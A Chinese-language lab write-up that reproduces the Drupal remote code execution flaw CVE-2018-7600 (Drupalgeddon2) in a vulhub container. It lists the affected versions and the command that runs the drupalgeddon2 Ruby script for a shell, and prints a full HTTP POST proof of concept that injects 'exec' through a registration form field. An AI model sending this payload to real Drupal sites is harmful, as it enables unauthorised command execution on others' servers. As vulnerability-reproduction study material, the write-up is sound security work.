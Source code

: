 # 0x00 复现环境
使用复现环境：vulhub->https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600

# 0x01 利用条件
无

# 0x02 影响版本
7.23<=7.x<=7.57  
8.3.x<=8.3.8  
8.4.x<=8.4.5  
8.5.x<=8.5.0

# 0x03 漏洞复现
执行“ruby ./drupalggedon2.rb http://172.16.35.128:8080”  
会返回一个shell，可在返回的shell中执行命令，如下图  
![image](./0.png)

# 0x04 踩坑记录
坑1：  
环境创建完之后，使用kali下的firefox访问127.0.0.1:8080时，burp不能抓到数据包，原因未知，解决方案：使用kali下的firefox访问局域网ip“172.16.35.128:8080”  
坑2：  
登录状态下使用vulhub中的poc无效，需要登出后才可执行命令id，vulhub中的poc如下:  
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
坑3：  
使用vulhub中的poc执行命令“ls”，只能看到一个文件“web.config”，执行命令“ls -a /”也只能看到一个文件“var”

# 参考链接
https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600
